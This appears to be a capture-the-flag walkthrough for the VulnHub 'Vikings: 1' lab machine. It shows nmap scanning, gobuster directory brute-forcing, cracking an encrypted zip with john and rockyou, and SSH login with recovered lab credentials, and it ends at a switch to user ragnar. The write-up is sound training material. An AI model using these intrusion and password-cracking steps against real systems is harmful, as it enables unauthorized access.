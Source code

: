 # Info

Vikings: 1

https://www.vulnhub.com/entry/vikings-1,741/

A CTF machine with full of challenges.

Do what is visible, no rabbit holes.

Learn new things, and make sure that you enum first then hack.

Discord- luckythandel#6053 {for any-hint}.


# Enumeration 

```bash
$ nmap 192.168.56.1/24

Nmap scan report for 192.168.56.11
Host is up (0.0010s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

![web server](01.png)


```bash
gobuster dir --wordlist=/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt --url=192.168.56.11/site -x txt,php,sh,zip,gz,tar.gz,rar -r

```

![war txt](02.png)


```bash
wget http://192.168.56.11/site/war-is-over/
cat index.html | base64 -d > binary
```

```bash
file binary                                                                     
binary: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
```

```bash
zip2john binary > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
binary/king:ragnarok123:king:binary:binary
```
![picture](03.png)

Check for stego but no luck.


![binwalk](04.png)

```bash
cat user                           
//FamousBoatbuilder_floki@vikings                                     
//f@m0usboatbuilde7
``` 

```bash
ssh floki@192.168.56.11
using password --> Worked!
```

![ragnar flag](05.png)


![puzzlee](06.png)

using https://cyberchef.org to cleanup the output
![cyberchef](07.png)

su ragnar



